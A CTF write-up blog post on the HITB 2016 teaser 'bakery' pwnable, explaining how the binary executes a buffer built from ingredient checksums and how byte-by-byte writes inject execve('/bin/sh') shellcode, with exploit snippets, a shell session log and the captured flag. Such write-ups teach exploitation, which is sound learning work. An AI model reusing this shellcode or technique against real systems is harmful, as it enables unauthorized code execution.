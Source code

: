 ```yaml
---
layout: post
title: HITB 2016 - Backery write-up
author: hugsy
author_twitter: _hugsy_
tags: exploit hitb
---
```


I participated to [HITB Teaser CTF](https://ctf.0ops.net/) only to have a bit of
fun with there pwnable challenge(s) which I find usually fun and
instructive. The teaser only offered one pwnable challenge, named `bakery`.


### Info ###

The vulnerable file is [here](http://s000.tinyupload.com/?file_id=02989717986988330189)

{% highlight bash %}
gef➤  !file ./bakery.910abf341053d25831ecb465b7ddf738
./bakery.910abf341053d25831ecb465b7ddf738: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=74fa32ca74594550d59ff5fb64b8dd523965cdfc, stripped
gef➤  checksec ./bakery.910abf341053d25831ecb465b7ddf738
[+] checksec for './bakery.910abf341053d25831ecb465b7ddf738'
Canary:                                           Yes
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
{% endhighlight %}

It is a baking program, that allows to build your own recipe.

<!--more-->

### Vulnerability ###

After printing the available ingredients, the `main` function does this (at
0x0400CBC)
![](https://i.imgur.com/yrFucNx.png)

Which translates to the pseudo-code:
{% highlight c %}
buf = mmap(NULL, 0x1000, RWX, flags, ...);
memset(buf, '\xc3', 0x1000);
srand( time(NULL) );
randint = rand() * 0x1337;
printf("0v3n w4rm3d up to %d d3greez! (d4mn h0t!)\n", randint);
{% endhighlight %}

Then it enters a loop to add the ingredients:
{% highlight c %}
printf("Add ingredient");
fgets(ingredient, 127, stdin);
ingredient[ strlen(ingredient)-1 ] = '\x00';
strncmp(ingredient, "BAKE", 4);
{% endhighlight %}

If we enter `BAKE`, it will simply jump to the buffer allocated by `mmap` from
above:
{% highlight asm %}
.text:0000000000400EB8                 mov     rax, [rbp+mmap_buf]
.text:0000000000400EBF                 mov     [rbp+var_108], rax
.text:0000000000400EC6                 mov     rdx, [rbp+mmap_buf]
.text:0000000000400ECD                 mov     rax, [rbp+var_108]
.text:0000000000400ED4                 mov     rdi, rdx
.text:0000000000400ED7                 call    rax
{% endhighlight %}

Otherwise, it will check using `strstr()` if our ingredient we entered is in the
list of valid ingredients. If the sub-string was found, it calls a function at
0x400B15 with 2 arguments, the string we provided as input for ingredient, and
the random integer generated initially.

The function at 0x400B15 is fairly simply and could be translate to pseudo-code
like this:
{% highlight c %}
int func_400B15(char* input, int init)
{
  int accu;
  int i;
  accu = init;
  for( i=0; i<strlen(input); i++ ) accu += input[i];
  return accu;
}
{% endhighlight %}

The result is then `and`-ed to 0xff and written at current location in the mmap
allocated buffer
{% highlight asm %}
.text:0000000000400E77                 mov     rax, [rbp+p_mmap_buf]
.text:0000000000400E7E                 movzx   edx, [rbp+result]
.text:0000000000400E85                 mov     [rax], dl
.text:0000000000400E87                 add     [rbp+p_mmap_buf], 1
{% endhighlight %}
The pointer to the `mmap` buffer is incremented.


So what this program is doing, is using the "accumulator" function to write
inside the `mmap` buffer, which will then be jumped into and executed.


### Exploitation ###

Getting the initial random integer can be done by reading from the socket until
reahcing the string `0v3n w4rm3d up to` and divide this value by 0x1337.
{% highlight python %}
    # get the init rand()
    parts = s.read_until("\n").split()
    temp = int(parts[5])
    ok("Got temp=%d" % temp)
    rand = temp / 0x1337
    ok("Got rand=%d" % rand)
{% endhighlight %}

To reliably control the content of the mmaped buffer, we need to "compensate"
the accumulation that the function is doing. Since we know the initial random
integer, my approach was to use one of the valid ingredients (in this case
`FLOUR`) which is required to pass the `strstr()` check, sum up the ascii values
of the letters of the word, and add the random init.
{% highlight python %}
def write_char_in_memory(sock, char, init):
    sock.read_until("add ingredient> ")
    [...]
    base = init + sum( [ord(x) for x in 'FLOUR'] )
{% endhighlight %}

If the value does not finish by a NULL, I calculate what is the closest upper
bound to be aligned with 0, and substract the result with my value:
{% highlight python %}
def find_closest_upper_bound(x):
    a = x >> 8
    a+= 1
    return a << 8

[...]
    top = base
    if base & 0xff != 0x00:
        top = find_closest_upper_bound(base)
    diff = top-base
{% endhighlight %}

This gives me in the `diff` variable what needs to be added to the stub `randint
+ 'F' + 'L' + 'O' + 'U' + 'R'`. We can then padding this stub by appending to
this stuff `diff` times `\x01`. This way we fully control the last byte, so we
can append the character we actually want written in memory.


Now that we can write reliably one character at a time, we can copy our
shellcode:
{% highlight python %}
        sc = "\x48\x31\xd2"                                  # xor rdx, rdx
        sc+= "\x48\x31\xc0"                                  # xor rax, rax
        sc+= "\x48\x31\xf6"                                  # xor rsi, rsi
        sc+= "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      # mov rbx, 0x68732f6e69622f2f
        sc+= "\x48\xc1\xeb\x08"                              # shr rbx, 0x8
        sc+= "\x53"                                          # push rbx
        sc+= "\x48\x89\xe7"                                  # mov rdi, rsp
        sc+= "\xc6\xc0\x3b"                                  # mov al, 59
        sc+= "\x0f\x05"                                      # syscall

        for c in sc:
            write_char_in_memory(s, c, rand & 0xff)
{% endhighlight %}

And to execute it, the only thing left is to start baking!
{% highlight python %}
        s.read_until("add ingredient> ")
        s.write("BAKE" + '\n' )
{% endhighlight %}

Let's go:
{% highlight bash %}
$  py gef-exploit.py
[+] Connected to 52.17.31.229:31337
Attach with GDB and hit Enter
[+] Got banner
[+] Got temp=654227
[+] Got rand=133
[*] Writing char=H rand=133
[*] Using top=768, base=525
[*] Sending ''FLOURAAA\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01H''
[*] Writing char=1 rand=133
[*] Using top=768, base=525
[...]
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
python -c "import pty;pty.spawn('/bin/bash')"
bakery@ip-172-31-31-97:/$ cd home/bakery
cd home/bakery
bakery@ip-172-31-31-97:/home/bakery$ ls
ls
YOU_WANT_THIS_ONE  bakery
bakery@ip-172-31-31-97:/home/bakery$ cat YOU_WANT_THIS_ONE
cat YOU_WANT_THIS_ONE
You win! The flag is HITB{24d467d954cc08efbfa6acd8341e55d7}
bakery@ip-172-31-31-97:/home/bakery$
{% endhighlight %}

Fun challenge, thanks to the whole HITB crew for their continuous inventivity.

And as usual, the full exploit can be found
[here](https://gist.github.com/hugsy/06ff00997c9d07099f27).
